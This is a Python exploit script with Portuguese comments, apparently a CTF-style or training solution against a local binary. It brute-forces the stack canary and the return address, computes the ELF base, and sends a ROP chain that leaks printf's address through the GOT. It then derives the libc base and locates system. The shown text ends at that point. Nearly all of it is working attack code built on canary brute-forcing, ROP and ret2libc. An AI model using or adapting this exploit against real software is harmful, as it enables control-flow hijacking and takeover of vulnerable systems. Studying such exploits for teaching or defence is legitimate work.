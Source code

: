 ```
print("[+] Procurando valor do CANARY...")
canary = b""
for i in range(8):
        canary = canary + bruteforce(offset + canary)
print(f"[+] Valor do CANARY: {canary.hex()}")

#incrementando o buffer com o valor do Canary + RBP
CANARY = offset + canary + rbp

#Inicio do Brute Force do endereco de retorno
print("[+] Procurando valor de retorno...")
ret = b""
for i in range(8):
        ret = ret + bruteforce(CANARY + ret)
ret = ret.ljust(8, b"\x00")
ret = u64(ret)[0]
print(f"[+] Valor de retorno: {hex(ret)}")

#Offset do endereco de retorno
offset_ret = 0x1246
#calculando o endereco base
elf_base = ret - offset_ret
print(f"[+] ELF BASE @ {hex(elf_base)}")

#Encontrando a Instrução Assembly no binário
#ROPgadget --binary prog --ropchain | grep rdi
pop_rdi = 0x12db + elf_base

#Encontrando offset da funcao printf
#objdump -d -M intel prog | grep printf
printf_got = 0x4028 + elf_base
printf_plt = 0x1050 + elf_base

#Encontrando o offset dafuncao main
#objdump -d -M intel prog | grep main
main = 0x1224 + elf_base

#Criando o payload
payload = CANARY
payload += p64(pop_rdi)
payload += p64(printf_got)
payload += p64(printf_plt)
payload += p64(main)

#Enviando o payload
p.send(payload)
#Recebendo a primeira linha
p.recv(1024)
#Recebendo a segunda linha
p.recv(1024)
#Salvando a terceira linha com o endereco da funcao PRINTF
elf_printf = p.recv(1024)
elf_printf = elf_printf.replace(b"Preencha meu buffer:", b"").strip()
elf_printf = u64(elf_printf.ljust(8, b"\x00"))[0]
print(f"[+] ELF PRINTF @ {hex(elf_printf)}")

#objdump -d -M intel libc/libc6_2.31-0ubuntu9_amd64 | grep _IO_printf
offset_printf = 0x64e10
libc_base = elf_printf - offset_printf
print(f"[+] LIBC BASE @ {hex(libc_base)}")

#objdump -d -M libc/libc6_2.31-0ubuntu9_amd64 libc | grep system
system = 0x55410 + libc_base
```